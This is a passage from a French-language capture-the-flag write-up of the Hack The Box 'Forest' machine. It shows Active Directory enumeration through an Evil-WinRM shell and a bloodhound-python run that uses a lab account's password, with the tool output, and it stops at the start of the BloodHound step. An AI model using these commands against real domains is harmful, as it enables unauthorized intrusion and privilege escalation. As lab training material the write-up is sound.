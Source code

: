 ## Escalation to Domain Admin
Pour commencer la recherche des choses qui vont nous aider a escalader nos privilege, je vais enumerer l'utilisateur dans lequel nous y somme

```
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net user svc-alfresco
User name                    svc-alfresco
Full Name                    svc-alfresco
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            2/23/2024 6:09:41 PM
Password expires             Never
Password changeable          2/24/2024 6:09:41 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   2/23/2024 5:32:20 PM

Logon hours allowed          All

Local Group Memberships
Global Group memberships     *Domain Users         *Service Accounts
The command completed successfully.

```
grace au Global Group memberships, on vois que l'utilisateur est un membre du groupe des `services accounts`. Maintenant avec ca utilisons l'outil `bloodhound` pour voir si on pourrais avoir des path exploitables
- BloodHound est programmé pour générer des graphiques qui révèlent les relations cachées au sein d'un réseau Active Directory. BloodHound est également compatible avec Azure. BloodHound permet aux attaquants d'identifier des chemins d'attaque complexes qu'il serait autrement impossible d'identifier. L'équipe bleue peut utiliser BloodHound pour identifier et corriger ces mêmes schémas d'attaque.

Pour ce faire je vais utiliser `bloodhound-python` je vais extraire toutes les informations sur ma machine cible pour ensuite les analyser avec bloodhound

```
└─# bloodhound-python -d htb.local -u svc-alfresco -p s3rvice -ns 10.129.4.45 -c All
INFO: Found AD domain: htb.local
INFO: Getting TGT for user
INFO: Connecting to LDAP server: FOREST.htb.local
INFO: Kerberos auth to LDAP failed, trying NTLM
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 2 computers
INFO: Connecting to LDAP server: FOREST.htb.local
INFO: Kerberos auth to LDAP failed, trying NTLM
INFO: Found 32 users
INFO: Found 76 groups
INFO: Found 2 gpos
INFO: Found 15 ous
INFO: Found 20 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: EXCH01.htb.local
INFO: Querying computer: FOREST.htb.local
```